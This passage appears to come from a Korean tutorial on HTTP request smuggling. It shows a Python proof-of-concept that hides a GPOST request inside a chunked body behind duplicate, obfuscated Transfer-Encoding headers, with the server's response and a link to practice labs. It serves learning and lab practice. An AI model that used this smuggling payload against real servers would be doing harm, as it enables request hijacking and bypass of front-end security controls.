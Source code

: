 ``` python

    return data

second_request  = b'GPOST / HTTP/1.1\r\n'
second_request += b'Content-Type: application/x-www-form-urlencoded\r\n'
second_request += b'Content-Length: 10\r\n'
second_request += b'\r\n'
second_request += b'x=1'

first_request  = b'POST / HTTP/1.1\r\n'
first_request += b'Host: '+HOST.encode()+b'\r\n'
first_request += b'Content-Length: 4\r\n'
first_request += b'Content-Type: application/x-www-form-urlencoded\r\n'
first_request += b'Transfer-Encoding: chunked\r\n'
first_request += b'Transfer-Encoding: x\r\n'
first_request += b'\r\n'
first_request += hex(len(second_request))[2:].encode()+b'\r\n'
first_request += second_request
first_request += b'\r\n'
first_request += b'0\r\n\r\n'


smuggle_request = first_request

data = send_payload(smuggle_request)

print (f'{"[*] REQUEST":^10}')
print (smuggle_request.decode())
print ("{:^10}".format("[*] RESPONSE"))
print (data.decode())
```

공격 방법은 위의 예제와 동일하지만, 이 취약점을 발견하는 데 좀 더 시간이 걸립니다. `Transfer-Encoding`를 조작해보고, **CL.TE**로 작동하는지, **TE.CL**로 작동하는지도 확인해봐야 합니다.

**Response :**

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Connection: close
Keep-Alive: timeout=0
Content-Length: 27

"Unrecognized method GPOST"
```



**HTTP request smuggling** 공격에 대해 알아보고 기본적인 공격방벙을 공부했는데, 좀 더 많은 문제를 풀어보고 싶으시면 링크 남겨드릴테니 풀어보시면 될 것 같습니다. **HTTP request smuggling** 공격에 대한 문제가 많지 않았던 거 같은데 여기서 공부하면 좋을 것 같습니다. :

> 🚀 [https://portswigger.net/web-security/request-smuggling/exploiting](https://portswigger.net/web-security/request-smuggling/exploiting)
